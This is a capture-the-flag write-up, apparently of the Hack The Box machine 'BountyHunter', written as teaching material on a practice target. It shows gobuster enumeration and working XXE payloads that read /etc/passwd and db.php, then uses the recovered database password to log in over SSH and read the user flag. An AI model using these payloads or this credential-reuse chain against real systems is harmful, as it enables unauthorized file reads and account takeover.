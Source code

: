 # # `Enumeration` -

![[Pasted image 20210726190454.png]]

We were able to visit the `portal` link on clicking on that were able to further visit `/log_submit.php` -

![[Pasted image 20210726190835.png]]

If we submit data it shows -

![[Pasted image 20211125233540.png]]


# # `Gobuster` -

```bash
root@napster:~/Documents/HTB/BountyHunter# gobuster dir -u http://10.10.11.100/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -x
 php -t 20 -o gobuster.txt                                                                                                                                    
===============================================================                                                                                               
Gobuster v3.0.1                                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                                               
===============================================================                                                                                               
[+] Url:            http://10.10.11.100/                                                                                                                      
[+] Threads:        20                                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt                                                                  
[+] Status codes:   200,204,301,302,307,401,403                                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                                            
[+] Extensions:     php                                                                                                                                       
[+] Timeout:        10s                                                                                                                                       
===============================================================                                                                                               
2021/07/26 18:40:42 Starting gobuster                                                                                                                         
===============================================================                                                                                               
/index.php (Status: 200)                                                                                                                                      
/.php (Status: 403)                                                                                                                                           
/js (Status: 301)                                                                                                                                             
/css (Status: 301)                                                                                                                                            
/.htm (Status: 403)                                                                                                                                           
/.htm.php (Status: 403)                                                                                                                                       
/.html (Status: 403)                                                                                                                                          
/.html.php (Status: 403)                                                                                                                                      
/db.php (Status: 200)
```

`db.php` seems interesting.But the page is blank when we visit it.

# #  `/log_submit.php` -

Back to the Bounty Submit page we tried to catch the request with Burp for further Enumeration -

![[Pasted image 20211127003918.png]]

The data looks to be base64-encoded, and then url encoded (because the `=` on the end becomes `%3d`).

On decoding it we found -

![[Pasted image 20211127004238.png]]

The result is XML.

# # `XXE` -

Since the result is XML its worth  to try for `XXE(External Entities Attack)`.

The idea is that this website is taking the XML input and parsing it to get the different values out. In the site on BountyHunter, it must be pulling the `title`, `cwe`, `cvss`, and `reward` variables so that it can display them back on the results page.

If the site doesn’t properly handle the XML input, the libraries that parse it will allow the user to put in control text that does things like create variables and read files.

The example classic payload looks something like this (example from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe)):

Reference -

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

The first line is very similar to what is sent in the POST for BountyHunter, and the last line is the XML data itself. The middle lines are defining an entity which includes the variable `&file` which is the contents of the `/etc/passwd` file. This allows the user to send in the contents of files they can’t read as input, and if that input is displayed back, then the exploit allows for file read.

Payload -

```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY nap SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&nap;</title>
		<cwe>nap</cwe>
		<cvss>10.0</cvss>
		<reward>1000</reward>
		</bugreport>
```

Encode it as base64, then URL encode and finally send  the request -

![[Pasted image 20211127014904.png]]

We can read files :)

Now one interesting file obviously we would like to read will be `db.php` which we found from our Gobuster result.To read php files we will use `php filter` as it will avoid bad characters.

Reference(Payload All The Things) -

```bash
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

Payload -

```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY nap SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd" >]>
		<bugreport>
		<title>&nap;</title>
		<cwe>nap</cwe>
		<cvss>10.0</cvss>
		<reward>1000</reward>
		</bugreport>
```

Encode it to base64 and then url encode.

Result -

![[Pasted image 20211127020310.png]]

Now decode the result -

![[Pasted image 20211127020543.png]]

And we were able to still read /etc/passwd file.

# # `db.php` -

Same way we can get our db.php file -

Payload -

```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY nap SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php" >]>
		<bugreport>
		<title>&nap;</title>
		<cwe>nap</cwe>
		<cvss>10.0</cvss>
		<reward>1000</reward>
		</bugreport>
```

Encode it to base64 and then url encode.

![[Pasted image 20211127020956.png]]

Output -

```bash
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

Base64 decode it -

```bash
root@napster:~/Documents/HTB/BountyHunter# echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We already have userlist -

```bash
root@napster:~/Documents/HTB/BountyHunter# cat passwd | grep /bash
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

# # `SSH` -

```bash
root@napster:~/Documents/HTB/BountyHunter# ssh development@10.10.11.100
The authenticity of host '10.10.11.100 (10.10.11.100)' can't be established.
ECDSA key fingerprint is SHA256:3IaCMSdNq0Q9iu+vTawqvIf84OO0+RYNnsDxDBZI04Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.100' (ECDSA) to the list of known hosts.
development@10.10.11.100's password:
development@bountyhunter:~$ whoami
development
development@bountyhunter:~$ ls -la
total 52
drwxr-xr-x 5 development development 4096 Nov 27 01:14 .
drwxr-xr-x 3 root        root        4096 Jun 15 16:07 ..
lrwxrwxrwx 1 root        root           9 Apr  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 development development  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 development development 3771 Feb 25  2020 .bashrc
drwx------ 2 development development 4096 Apr  5  2021 .cache
-rw-r--r-- 1 root        root         471 Jun 15 16:10 contract.txt
lrwxrwxrwx 1 root        root           9 Jul  5 05:46 .lesshst -> /dev/null
drwxrwxr-x 3 development development 4096 Apr  6  2021 .local
-rw-r--r-- 1 development development  807 Feb 25  2020 .profile
drwx------ 2 development development 4096 Apr  7  2021 .ssh
-rw-rw-r-- 1 development development   83 Nov 27 01:14 tkt.md
-r--r----- 1 root        development   33 Nov 26 06:21 user.txt
-rw------- 1 development development 7164 Nov 27 01:14 .viminfo
development@bountyhunter:~$ cat user.txt 
53147860182777837aa3fcb1e52b9d3a
```